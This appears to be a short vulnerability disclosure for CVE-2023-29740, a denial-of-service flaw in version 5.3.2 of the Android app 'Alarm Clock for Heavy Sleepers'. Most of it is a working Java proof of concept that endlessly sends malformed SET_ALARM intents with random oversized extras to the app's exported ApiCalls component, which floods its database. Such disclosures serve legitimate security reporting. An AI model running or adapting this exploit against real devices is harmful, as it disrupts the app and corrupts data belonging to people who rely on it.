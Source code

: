 ## Denial of Service exists in Alarm Clock for Heavy Sleepers（CVE-2023-29740）

Vendor：Smart Alarm Clock Team(http://amdroidapp.com/)

Affected product：Alarm Clock for Heavy Sleepers(com.amdroidalarmclock.amdroid)

Version：5.3.2

Download link： https://play.google.com/store/apps/details?id=com.amdroidalarmclock.amdroid

Description of the vulnerability for use in the CVE：An issue found in Alarm Clock for Heavy Sleepers v.5.3.2 for Android allows unauthorized apps to cause a denial of service attack by manipulating the database.



poc：

```java
private void attack() {
    while (true) {
        Intent intent = new Intent();
        ComponentName componentName = new ComponentName("com.amdroidalarmclock.amdroid", "com.amdroidalarmclock.amdroid.ApiCalls");
        intent.setComponent(componentName);
        intent.setAction("android.intent.action.SET_ALARM");
        Random random = new Random();
        int legnth = random.nextInt(102400);
        String randomString =getRandomString(legnth);
        intent.setClassName("com.amdroidalarmclock.amdroid","com.amdroidalarmclock.amdroid.ApiCalls");
        intent.putExtra("android.intent.extra.alarm.HOUR",11);
        intent.putExtra("android.intent.extra.alarm.MINUTES",30);
        intent.putExtra("android.intent.extra.alarm.MESSAGE","this is hack's message!");
        ArrayList<Integer> list=new ArrayList<>();
        list.add(0);
        list.add(1);
        list.add(0);
        list.add(1);
        list.add(0);
        list.add(1);
        list.add(0);
        intent.putIntegerArrayListExtra("android.intent.extra.alarm.DAYS", list);
        intent.putExtra(randomString,randomString);
        try {
            System.out.println("发送数据");
            sendBroadcast(intent);
        } catch (Exception e) {
        }
    }
}
```



